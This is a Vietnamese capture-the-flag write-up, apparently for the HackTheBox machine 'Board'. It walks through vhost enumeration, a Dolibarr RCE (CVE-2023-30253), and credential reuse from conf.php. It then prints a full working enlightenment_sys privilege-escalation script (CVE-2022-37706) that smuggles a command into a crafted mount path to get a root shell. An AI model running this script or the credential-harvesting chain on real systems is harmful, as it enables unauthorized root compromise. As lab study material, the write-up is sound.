## Task 1


Chúng ta tiến hành rà quét thì thu được kết quả


> 2
## Task 2


Chúng ta truy cập vào trang web và tìm kiếm thì thấy thông tin


> board.htb
## Task 3


Thực hiện quét vhost trên domain được cung cấp
```bash
gobuster vhost -u http://board.htb -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -t 40 -append-domain
```
Chúng ta sẽ thu được kết quả thêm một `crm.board.htb` truy cập thì chúng ta được


> Dolibarr
## Task 4


> 17.0.0
## Task 5


> admin
## Task 6


Sau khi search google thì nhận được một CVE có vẻ là phù hợp vói case của chúng ta


> CVE-2023-30253

### CVE-2023-30253
**Cơ chế lỗi:**
> Dolibarr allows remote code execution by an authenticated user via an uppercase manipulation: `<?PHP` instead of `<?php` in injected data.

**Giải thích chi tiết:**
Dolibarr có tính năng cho phép user chỉnh sửa nội dung trang (website builder/CMS module). Hệ thống có filter để chặn việc inject PHP code bằng cách tìm và block tag `<?php`. Tuy nhiên, filter này **case-sensitive** — chỉ chặn chữ thường. Khi attacker viết `<?PHP` hoặc `<?Php` (uppercase), filter không nhận ra nhưng PHP engine vẫn thực thi bình thường vì PHP tag **không phân biệt hoa thường**.
## Task 7


Chúng ta tiến hành khai thác bằng msfconsole


Sau khi nạp các thông tin thu thập được từ account đã xác thực admin


> www-data
## Task 8


> /var/www/html/crm.board.htb/htdocs/conf/conf.php

Trong file này chúng ta cũng tìm thấy một số thông tin thú vị


Password tìm thấy
```
serverfun2$2023!!
```

Trong thư mục /home thì chúng ta lại tìm thấy người dùng
```
larissa
```
## User Flag
Chúng ta thử ssh với username và password thu thập được

## Task 10


Tìm thử các SUID có trong máy
```
find / -perm -4000 -type f 2>/dev/null
```


Chúng ta chú ý một cái binary không phải mặc định trên target nhưng được cấp SUID
> enlightenment
## Task 11


Kiểm tra version bằng câu lệnh
```bash
dpkg -l | grep enlightenment
```

> 0.23.1
## Task 12


### CVE-2022-37706
**Cơ chế lỗi:** `enlightenment_sys` allows local users to gain privileges because it is setuid root, and the system library function mishandles pathnames that begin with a `/dev/..` substring. 

Nói đơn giản: `enlightenment_sys` chạy với quyền root và gọi `system()` với đường dẫn mà user có thể kiểm soát. Khi truyền path bắt đầu bằng `/dev/..`, nó bypass validation nhưng OS vẫn resolve path bình thường → attacker chèn được command chạy dưới quyền root.
## Root Flag
Tìm hiểu thông tin thì https://www.exploit-db.com/exploits/51180 có sẵn mẫu khai thác và chúng ta cũng đang có phiên SSH nên payload sẽ được cắt ra như sau
```bash
#!/bin/bash
file=$(find / -name enlightenment_sys -perm -4000 2>/dev/null | head -1)
if [[ -z ${file} ]]
then
	echo "[-] Couldn't find the vulnerable SUID file..."
	echo "[*] Enlightenment should be installed on your system."
	exit 1
fi

echo "[+] Vulnerable SUID binary found!"
echo "[+] Trying to pop a root shell!"
mkdir -p /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit"

echo "/bin/sh" > /tmp/exploit
chmod a+x /tmp/exploit

${file} /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net
```
Tiến hành chạy script thì chúng ta có được flag
